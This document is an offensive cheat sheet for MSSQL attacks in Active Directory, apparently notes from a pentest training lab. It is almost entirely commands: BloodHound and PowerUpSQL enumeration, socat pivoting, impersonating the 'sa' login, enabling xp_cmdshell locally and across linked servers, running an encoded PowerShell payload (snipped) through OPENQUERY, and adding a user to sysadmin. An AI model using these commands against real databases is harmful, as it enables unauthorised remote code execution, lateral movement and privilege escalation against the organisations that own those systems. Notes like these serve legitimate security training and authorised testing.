 ## BloodHound
``` a
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

``` powershell
PowerShell Get-SQLInstanceDomain | Get-SQLConnectionTest
proxychains socat TCP4-Listen:1433,fork TCP:192.168.2.11:1433
runas /netonly /user:US.FUNCORP.LOCAL\pastudent34 "C:\Program Files\HeidiSQL\heidisql.exe" 
```
## xp_cmdshell
``` sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```
## database link
``` sql
SELECT * FROM master..sysservers or EXEC sp_linkedservers;
```
## enum
``` sql
SELECT name FROM master.sys.databases
SELECT name FROM sys.syslogins
SELECT name FROM sys.server_principals
```

``` sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT @@servername
```

## enable xp_cmdshell 
``` sql
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE
```

# Remote 
``` sql
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [remote sql]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [remote sql]
SELECT * FROM OPENQUERY("[remote sql]", 'select * from sys.configurations where name = ''xp_cmdshell''')
```

``` sql
SELECT * FROM OPENQUERY("[remote sql]", 'select @@servername; exec xp_cmdshell ''powershell -enc [...snip...]''')
```
# INTO MSSQL
``` powershell
Get-SQLInstanceLocal
Get-SQLServerInfo -Verbose -Instance MSSQLSRV04\BOSCHSQL
```
``` batch
shell addselftosqlsysadmin.cmd MSSQLSERVER USFUN\pastudent34
```
* https://blog.netspi.com/get-sql-server-sysadmin-privileges-local-admin-powerupsql/

``` powershell
Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "exec master..xp_cmdshell 'whoami'"
```